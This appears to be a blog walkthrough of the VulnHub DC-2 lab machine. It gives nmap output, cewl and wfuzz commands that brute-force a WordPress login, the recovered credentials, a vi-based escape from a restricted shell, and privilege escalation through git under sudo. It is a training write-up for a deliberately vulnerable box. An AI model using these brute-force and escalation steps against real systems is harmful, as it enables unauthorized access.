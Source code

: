 ```yaml
---
layout: "post"
title: "DC 2 Walkthrough"
categories: [vulnhub]
---
```


DC-2 is an easy machine. This machine starts with a `WordPress site`. After brute-forcing, We find out creds on the website that we use to get an `ssh session` on the box. Priv sec to root by exploiting `git SUID binary`.
# Summary
- Portscan
- Adding Domain to Host file
- Finding users on wordpress 
- Creating wordlist
- Bruteforce
- Logging in Wordpress
- SSH shell
- Updating low shell to higher shell
- Privilege Escalation
- Getting ROOT

# Portscan

```
Nmap scan report for 192.168.1.10
Host is up (0.00047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap scan show that port 80 and 7744 are open

```
Port 80: On this port, I find out a Domain name. I added to /etc/hosts file and surf the page. I discovered that WordPress is installed.

Port 7744: They are running SSH on this port. So I don't have any credentials so I moved forward.
```
# Initial Shell:

## Flag 1:
I got the first flag on the Main page
![flag1](/assets/img/dc-2/flag1.png)



As per hint in the first flag, I created a password list using cewl.

```bash
cewl -w password.txt http://dc-2
```

After that, I use wpscan to identify possible users and I found 3 users.

![wpscan](/assets/img/dc-2/wpscan.png)

Users :-
- admin
- jerry
- tom

Now I have a password and user list so I brute force the wordpress.
Here I use wfuzz to brute force.

```bash
wfuzz -c --hc=200 -z file,users.txt -z file,password.txt -d 'log=FUZZ&pwd=FUZ2Z&wp-submit=Log+In' http://dc-2/wp-login.php
```

![wfuzz](/assets/img/dc-2/wfuzz.png)

Here I got 2 passwords.
- ```jerry:adipiscing```
- ```tom:parturient```

## Flag 2:
I use jerry password to access wordpress panel and got second flag.

![flag2](/assets/img/dc-2/flag2.png)

## First User:
I spend some time to upload php reverse shell, but no luck :(
Then I tried same creds to access SSH on port 7744.
``` $ ssh tom@dc-2 -p 7744```

## Updating shell:

I tried to cat the flag3.txt but no luck. We are in a restricted shell. I checked usr/bin directory and PATH variable I noticed that tom is using binaries from that directory.
Here I learned new things about how to launch a shell using vi.

Steps:

1. Open VI editor 
2. Press ESC + :
3. set shell=/bin/bash
4. Again step 1 and 2 
5. shell

So I have shell using VI.

Now I am out of restricted shell but still using commands in usr/bin directory. I need to change PATH variable.

```export PATH=/bin:/usr/bin:$PATH```

## Flag 3:
Now I am able to cat the third flag.

![flag 3](/assets/img/dc-2/flag3.png)

## Second User:
Flag gives hint we need to switch user i.e jerry.

>jerry:adipiscing

![user2](/assets/img/dc-2/user2.png)

# Privesc to root:

Now I checked the sudoers list and found that I can run git without password.
![sudoer](/assets/img/dc-2/sudoer.png)

After some googling I found a [link](https://gtfobins.github.io/gtfobins/git/#shell).
![gtfobins](/assets/img/dc-2/gtfobins.png)

![git](/assets/img/dc-2/git.png)

## Final Flag
![final](/assets/img/dc-2/final.png)


